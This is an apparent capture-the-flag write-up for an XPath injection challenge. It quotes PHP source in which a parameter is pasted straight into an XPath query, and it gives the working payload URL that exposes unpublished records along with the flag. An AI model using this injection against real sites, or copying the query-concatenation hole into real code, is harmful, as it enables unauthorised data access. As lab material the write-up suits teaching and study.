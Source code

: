 # Yet Another Injection

## Description 
SQL is not the only target of injection attacks.

http://yai.sstf.site

Note: If this challenge is too difficult for you,
please revisit SQLi 101 and SQLi 102.
The principle is the same as SQLi.

## Solution
I managed to solve it fast enough to be the top 3 though it was easy challenge.

![](images/top3.png)

We have the login form and the `hint`.

![](images/login.png)

`hint` lets us know we can see all sources with `showsrc` parameter.

```php
<?php
    if (isset($_GET['showsrc']) && in_array($_GET['showsrc'], Array('index.php', 'login.php', 'library.php', 'paperdetail.php'), true)) {
        highlight_file($_GET['showsrc']);
    }
?>
```

We can login with `guest:guest`.

```php
        array_push($users, "guest:".hash("sha256", "guest"));
```

After examining the injection points except for SQLi as the description suggests, I figured out we can do XPath injection on `$idx`.

```php
function getDetail(DomDocument $papers, string $idx) {
    $xpath = new DOMXPath($papers);
    $query = "//Paper[Idx/text()='".$idx."' and @published='yes']";
    $paper_list = $xpath->query($query);
    // ...
```

I can get the flag with the below injection.

```
http://yai.sstf.site/paperdetail.php?idx=' or @published='no' or '
```

## Flag
`SCTF{W4KE_up_IT's_mOndAy_m0rn1n9_183689c7}`